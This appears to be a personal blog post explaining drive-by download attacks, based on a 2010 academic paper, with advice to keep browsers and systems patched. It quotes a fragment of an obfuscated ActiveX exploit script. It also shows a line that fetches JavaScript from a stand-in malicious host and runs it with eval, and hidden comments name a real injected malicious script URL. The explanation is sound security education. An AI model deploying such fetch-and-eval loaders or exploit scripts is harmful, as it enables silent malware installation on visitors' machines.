 ```yaml
---
title: "What **ACTUALLY** Happens When You Click Random Links"
date: 2024-02-27
# draft: true
categories:
  - technical
tags:
  - cybersecurity
---
```


We all know better than to click on random links. Malware and scams frequently hide behind a mysterious looking url, yet a part of me -- driven by curiosity -- wonders what lies beyond that click. However I never satisfy that desire because I am uncertain of the mechanisms of how malware could end up on my device. In this post I take away my ignorance on the topic by diving into the nitty gritty technical details of a drive-by download attack. 

<!-- An initial Google search brought me nowhere... 

It showed me loads of normie websites of corporations trying to fearmonger readers into buying their cybersecurity products. 

![](/images/what-actually-happens-when-you-click-random-links/normie-websites.png)

That won't bring me far, luckily I have chatGPT which is becoming a better search engine than Google 😊. It suggested I look into drive-by downloads. And that is what this blog post will cover.  -->

I am basing this on a widely cited (924 according to Google Scholar) paper from 2010.

[Marco Cova, Christopher Kruegel, and Giovanni Vigna: Detection and Analysis of Drive-by-Download Attacks
and Malicious JavaScript Code](https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=eb5a092458d50ad1119ca0ef10e416db24235e9b)

In a drive-by download, malware is downloaded to a website visitor's pc without the user's awareness or consent. A high level overview is illustrated in the paper. 

Suppose the user clicks on a malicious link taking them to a website. Nothing seems to happen, however behind the scenes there is a script tag in the HTML that loads an invisible iframe with a length and withd of 0 into the browser. The website in that iframe uses the user-agent http header to determine which browser and os version the victim is using. Based on that information the website can return different JS scripts that target known vulnerabilities in those versions. An example of a malicious script loaded by a user using Internet Explorer 6.1 running on Windows XP is shown below.

```
1 function a9_bwCED() {
2   var OBGUiGAa = new ActiveXObject(’Sb.SuperBuddy’);
3   if (OBGUiGAa) {
4     Exhne69P();
5     OBGUiGAa.LinkSBIcons(0x0c0c0c0c);
6   }
7   return 0;
8 }
9 if (a9_bwCED() || g0UnHabs() || P9i182jC()) { ... }
```

The script tries multiple functions to get a successful exploit. We are showing the function a9_bwCED here, but the others are similar. It first instantiates a vulnerable component (in this case the SuperBudy control, but it can be different for other user agents). If that component is successfully instantiated, it calls Exhne69P which puts malicious shellcode in the heap memory of the process. On line 5 an integer overflow vulnerability is exploited, if successfull this will cause the injected shellcode to execute. The malicious shellcode could install malware on your pc, encrypt your files or put your device in a botnet. 

Unfortunately it's hard to statically detect malicious scripts because of the dynamic features provided by Javascript. The eval() function makes it possible to run code that is provided as a string argument. This makes it possible to fetch the javascript code from a remote webserver at runtime, so that static malware detection tools can't see what will be executed in the eval function. 

```
fetch('http://malicious.example.com/malicious-script.js')
  .then(response => response.text())
  .then(code => eval(code));
```

## How to protect yourself

You may have noticed that this whole operation relies on the fact that you have a user agent that has exploitable vulnerabilities. To greatly decrease your chances of being vulnerable you should always update your os and browser so that you get the latest security patches. 

## Full disclosure

I don't know how relevant this work is for 2024, but it was certainly interesting to me and a nice beginning to answer the question: "How does malware end up on your pc by clicking on a malicious link?" 

<!-- Een goedaardige website werd geïnfecteerd met een SQL injection attack. Daardoor werd in elke HTML pagina die het servde het volgende geladen `<script src="http://www.kjwd.ru/js.js">`. Dit zorgt ervoor dat een scrit van www.kjwd.ru wordt uitgevoerd. The script checks if the victim has allready been attacked by their malware by reading a cookie. If not, they set that cookie and begin the process. It then injects an iframe tag into the web page. It has null height and width so it's invisible to the victim. The injected iframe points to a resource hosted on a third website, namely iroe.ru. 

Iframes are legitemate things used in the web today. They are used to load in another website into your website. For example to serve third party content like youtube, or to serve ads. Iframes cannot access the DOM from the parent website.  -->

<!-- The website iroe.ru uses the User-agent request header field to detect the user's browser and operating system. A user-agent is used benignly for websites that for example want to know that you are on mobile, so they can serve you their mobile version of the website. However here it is used maliciously to know which browser and os you have and then they look up known vulnerabilities for those versions. Depending on the user agent, a different website is returned with different js code to exploit the vulnerabilities for those speficif browser and os versions.  -->



